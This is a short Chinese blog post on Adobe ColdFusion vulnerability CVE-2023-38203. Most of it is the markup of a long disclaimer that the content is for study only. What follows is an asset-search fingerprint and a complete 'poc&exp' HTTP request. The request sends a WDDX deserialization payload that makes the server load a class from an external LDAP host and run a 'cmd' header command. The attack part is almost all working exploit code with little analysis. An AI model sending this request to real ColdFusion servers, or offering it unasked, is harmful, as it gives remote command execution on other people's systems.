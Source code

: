 #  CVE-2023-38203   
原创 Abandon6  漏洞猎人   2024-04-04 07:47  
  
<table><tbody style="outline: 0px;visibility: visible;"><tr style="outline: 0px;visibility: visible;"><td width="557" valign="top" height="184" style="padding: 0px;outline: 0px;word-break: break-all;hyphens: auto;visibility: visible;"><p style="outline: 0px;visibility: visible;"><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">免</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">声</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">明</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">：</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">所</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">涉</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">及</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">信</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">息</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">安</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">全</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">技</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">术</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">知</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">识</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">仅</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">供</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">参</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">考</span></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;letter-spacing: 0.578px;text-decoration: line-through;visibility: visible;"></span></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">和</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">学</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">习</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">之</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">并</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">构</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">成</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">明</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">示</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">或</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">暗</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">示</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">保</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">证</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">读</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">在</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">使</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">提</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">供</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">信</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">息</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">时</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">应</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">自</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">行</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">判</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">断</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">其</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">适</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">性</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">并</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">承</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">担</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">由</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">此</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">产</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">生</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">一</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">切</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">风</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">险</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">和</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">作</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">对</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">于</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">读</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">基</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">于</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">内</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">容</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">所</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">做</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">出</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">行</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">为</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">或</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">决</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">定</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">承</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">担</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">在</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">情</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">况</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">下</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">作</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">对</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">因</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">使</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">内</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">容</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">而</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">导</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">致</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">直</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">接</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">、</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">间</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">接</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">、</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">特</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">殊</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">或</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">后</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">果</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">性</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">损</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">失</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">承</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">担</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">读</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">在</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">使</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">内</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">容</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">时</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">应</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">当</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">遵</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">守</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">当</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">地</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">律</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">规</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">并</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">保</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">证</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">违</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">反</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">相</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">关</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">律</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">规</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span></span></strong></p></td></tr></tbody></table>  
  
  
  
影响版本  
  
  
app="Adobe-ColdFusion"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9eVcaiaJyjJW0dVZVFTyrxL5CLQWWexJ7Vl5vYocDPppdjY6Zic92YquJ834hmKW4ria0xEZkjadPjPXdLY2sYJvg/640?wx_fmt=png&from=appmsg "")  
  
  
poc&exp  
```
POST /CFIDE/adminapi/base.cfc?method= HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/x-www-form-urlencoded
Content-Length: 289
cmd: dir

argumentCollection=<wddxPacket+version%3d'1.0'><header/><data><struct+type%3d'xcom.sun.rowset.JdbcRowSetImplx'><var+name%3d'dataSourceName'><string>ldap://192.168.40.1:1389/Basic/TomcatEcho</string></var><var+name%3d'autoCommit'><boolean+value%3d'true'/></var></struct></data></wddxPacket>
```  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/9eVcaiaJyjJUH41ow46vKhge3WzNajaArtTNRUnibe3m0OLwQ2DrMA8j8PPGKIalnRUwicTLGYMwhkfejIib6tPnIQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9eVcaiaJyjJUH41ow46vKhge3WzNajaArNT83xSnTuhw1XLjkeYIuIQ8041dMaD2IsPFhtVfNNYia3bQWbxxuVbA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
